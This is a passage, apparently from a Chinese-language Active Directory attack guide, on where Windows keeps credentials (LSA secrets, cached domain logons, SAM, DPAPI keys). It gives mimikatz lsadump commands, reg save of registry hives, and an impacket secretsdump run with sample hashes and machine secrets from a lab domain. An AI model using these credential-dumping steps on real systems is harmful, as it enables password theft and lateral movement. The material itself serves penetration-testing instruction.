 LSA secrets能找到：

| **Domain Computer Account** | 计算机账密存储在LSA secrets，密码默认30天换一次（[Password Updates ](https://adsecurity.org/?p=280)）；这个账户被本地账户SYSTEM 使用来与域交互而不是本地，因此这个账户在本机器上没有管理员权限  <br>但即便计算机域账户没有管理员权限，还是能创建[Silver ticket](https://zer1t0.gitlab.io/posts/attacking_ad/#golden-silver-ticket) or perform a [RBCD attack](https://zer1t0.gitlab.io/posts/attacking_ad/#s4u-attacks)来以管理员身份访问计算机 |
| --------------------------- | ------------------------------------------------------------ |
| **Service users passwords** | 为了代表用户运行服务，计算机需要存储其密码。但是，不会存储密码的用户，而是存储服务名称，因此您可能需要调查用户名是什么。 |
| **Auto-logon password**     | [auto-logon](https://keithga.wordpress.com/2013/12/19/sysinternals-autologon-and-securely-encrypting-passwords/)开启的话，密码就会存在LSA secrets里面，或者 存在注册表的key DefaulUserName下的 HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon 。域和用户名一直分别存在DefaultDomainName 和 DefaultUserName |
| **DPAPI master keys**       | [data   protection API](https://docs.microsoft.com/en-us/dotnet/standard/security/how-to-use-data-protection) (DPAPI) 加密数据而不用担心加密密钥，拿到master keys就能[decrypt   users data](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation/dpapi-extracting-passwords) |

SECURITY hive file（安全配置单元文件）也会存上一个域用户登陆的凭证，叫Domain cached credentials (DCC)，即便连不上DC也能认证用户；这些缓存的凭证为MSCACHEV2/MSCASH hashes，不能实施PTH，但能[crack them](https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dumping-and-cracking-mscash-cached-domain-credentials)来取得用户密码

##### **SAM**

[SAM](https://en.wikipedia.org/wiki/Security_Account_Manager) hive file也有凭证，包括本地用户的NT hash，可以尝试撞库

##### **Dumping registry credentials**

可以用mimikatz从内存读SECURITY and SAM hives的凭证

先 token::elevate 拿SYSTEM session才能读凭证，再privilege::debug（如果需要开SeDebugPrivilege的话）

然后就可以拿凭证了：

| lsadump::secrets | LSA secrets               |
| ---------------- | ------------------------- |
| lsadump::cache   | cached  domain logons     |
| lsadump::sam     | local account credentials |

或，用 [reg save](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/reg-save)命令存到本地，然后 [impacket secretsdump](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py)脚本或mimikatz拿内容

先dump注册表hives，需要SECURITY and SAM hive files，因为它们包含允许解密SECURITY and SAM hives的system Boot Key (or System Key) ，hives保存到本地后跑secretsdump来dump，例子：

```powershell
$ secretsdump.py -system system.bin -security security.bin -sam sam.bin  LOCAL
Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

[*] Target system bootKey: 0xb471eae0e93128b9c8d5780c19ac9f1d
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:6535b87abdb112a8fc3bf92528ac01f6:::
user:1001:aad3b435b51404eeaad3b435b51404ee:57d583aa46d571502aad4bb7aea09c70:::
[*] Dumping cached domain logon information (domain/username:hash)
CONTOSO.LOCAL/anakin:$DCC2$10240#anakin#2933cad9235d2f502d7bedc2016e6553
CONTOSO.LOCAL/han:$DCC2$10240#han#4a52a6d0d7f3590c68124f4d5f7ef285
[*] Dumping LSA Secrets
[*] $MACHINE.ACC 
$MACHINE.ACC:plain_password_hex:59aa6b91e74a0a6fc40efee9f2fb07936a9d69f46397dee82d3ec6ca4d0c01a0293d79e5c040bf564b7938d6c25597816921ec614ad25933af6a2482a8ace4d1dd54dd4bb465384b30046d85f65083e885455ec5f01dcae30df619e3f944eaa008a09e0f7432981f7cdb8dea34e432f00ed92e1ae3e48111326deb2d0f9a6e7d868e24c840b8814d338a4165f90381a4a6b824addb4f71c5908cac4423a4efbc5a4d846c09245930b526a6bec8c678ca838a005dcf5014f8b18426c3e0dbd3921f82c57e6ca025d0258d4536a9e0b68b90ff26c054c992c84d11e95f78c55ca411ee0e5b412cb4fc0f08c28ca2d79996
$MACHINE.ACC: aad3b435b51404eeaad3b435b51404ee:b13dae64def5f205f382a0ab4174eb85
[*] DefaultPassword 
(Unknown User):user
[*] DPAPI_SYSTEM 
dpapi_machinekey:0x6880eb76862df7875705885938102c696717eb18
dpapi_userkey:0x828326418633117212de44bcda10806fc6765d4a
[*] NL$KM 
```